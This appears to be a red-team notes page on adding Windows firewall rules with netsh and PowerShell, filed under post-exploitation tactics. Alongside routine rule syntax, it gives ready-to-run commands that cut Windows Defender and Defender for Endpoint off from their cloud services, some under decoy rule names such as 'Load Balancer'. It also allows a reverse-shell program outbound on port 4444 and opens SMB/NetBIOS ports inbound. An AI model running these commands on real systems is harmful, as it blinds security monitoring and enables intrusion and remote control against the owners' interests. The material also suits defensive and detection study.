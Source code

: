 # Add Firewall Rule

## 01 - Usage

### 1.1 - Command Prompt

> [!NOTE] Elevated Privileges is required
> Using `netsh.exe` requires administrative rights when adding firewall rules.

You can remotely add a firewall rule communicating through NETBIOS.

```
C:\> netsh.exe [-r <IP>] advfirewall firewall add rule name="<rule_name>" dir=<in | out> action=<allow | block | bypass> protocol=<any | tcp | udp | icmpv4 | icmpv6> localport=<PORT>
```

### 1.2 - PowerShell

```
PS C:\> New-NetFirewallRule -DisplayName "<rule_name>" -Direction <Inbound | Outbound> -LocalPort <PORT> -Action <NotConfigured | Allow | Block> -Protocol <TCP | UDP | ICMPV4 | ICMPV6>
```

## 02 - Scenarios

### 2.1 - Allow Incoming Ports

#### 2.1.1 - Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=445
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=135
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=139
```

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" dir=in action=allow protocol=TCP localport=138
```

#### 2.1.2 - PowerShell

```

```

### 2.1 - Block Outbound Packets

#### 2.1.1 - Command Prompt

Limit certain UDP outbound packets for NETBIOS fingerprinting

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" protocol=udp dir=out localport=137 action=block
```

Limit certain UDP outbound packets for DNS lookup fingerprinting

```
C:\> netsh.exe advfirewall firewall add rule name="<name>" protocol=udp dir=out localport=53 action=block
```

#### 2.1.2 - PowerShell

Limit certain UDP outbound packets for NETBIOS fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Load Balancer" -Direction Outbound -LocalPort 137 -Action Block -Protocol UDP
```

Limit certain UDP outbound packets for DNS lookup fingerprinting

```
PS C:\> New-NetFirewallRule -DisplayName "Endpoint Response Agent" -Direction Outbound -LocalPort 53 -Action Block -Protocol UDP
```

### 2.2 - Block Security Endpoints

#### 2.2.1 - Windows Security

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Block 443 MsMpEng" dir=outbound protocol=TCP action=block service=WinDefend remoteport=443

C:\> netsh.exe advfirewall firewall show rule name="Block 443 MsMpEng"
```

PowerShell

```powershell
PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsMpEng" -Name "Block 443 MsMpEng" -Direction Outbound -Service WinDefend -Enabled True -RemotePort 443 -Protocol TCP -Action Block

PS C:\> Get-NetFirewallRule -DisplayName "Block 443 MsMpEng"
```

#### 2.2.2 - Advanced Threat Protection

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Block 443 SenseCncProxy" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" remoteport=443 protocol=TCP action=block

C:\> netsh.exe advfirewall firewall add rule name="Block 443 MsSense" dir=outbound program="%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" remoteport=443 protocol=TCP action=block
```

PowerShell

```
PS C:\> New-NetFirewallRule -DisplayName "Block 443 SenseCncProxy" -Name "Block 443 SenseCncProxy" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\SenseCncProxy.exe" -RemotePort 443 -Protocol TCP -Action Block

PS C:\> New-NetFirewallRule -DisplayName "Block 443 MsSense" -Name "Block 443 MsSense" -Direction Outbound -Program "%ProgramFiles%\Windows Defender Advanced Threat Protection\MsSense.exe" -RemotePort 443 -Protocol TCP -Action Block
```

#### 2.2.3 - Third Party

TODO: Provide other examples from different endpoints

### 2.3 - Allow programs with incoming/outgoing connection

TODO: Provide examples such as in a restricted network by adding a firewall rule to establish a callback shell connection

#### 2.3.1 - Callback Reverse Shell

TODO: Test this

Command Prompt

```
C:\> netsh.exe advfirewall firewall add rule name="Callback Reverse Shell" profile=domain,private,public remoteport=4444 protocol=tcp enable=yes dir=out program="C:\path\to\shell.exe" action=allow
```

PowerShell

```
PS C:\> New-NetFirewallRule -Name "Callback Reverse Shell" -Profile "Domain,Private,Public" -Protocol TCP -Enabled True -Direction Outbound -RemotePort 4444 -Program "C:\path\to\shell.exe" -Action Allow
```

#### 2.3.2 - Callback Bind Shell

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xE - Networking Configuration/Firewalls/Living off the Land]]

- [[Firewall Rule Names Examples]]

### Red Team Recipe

- [RedTeamRecipe: Registry Attack Vectors](https://blog.redteamguides.com/registry-attack-vectorsrtc0018)

### Bhabesh

- [Bhabesh: Detect Addition of New Firewall Rules in Defender Firewall](https://bhabeshraj.com/post/detect-addition-of-new-firewall-rules-in-defender-firewall/)

### Ivan

- [Ivan: Installing Reverse Shell Backdoors on Windows Systems](https://ivanitlearning.wordpress.com/2019/06/09/installing-reverse-shell-backdoors-on-windows-systems/)

### Soren Fritzboger

- [Soren Fritzboger: Silencing Microsoft Defender for Endpoint using firewall rules](https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)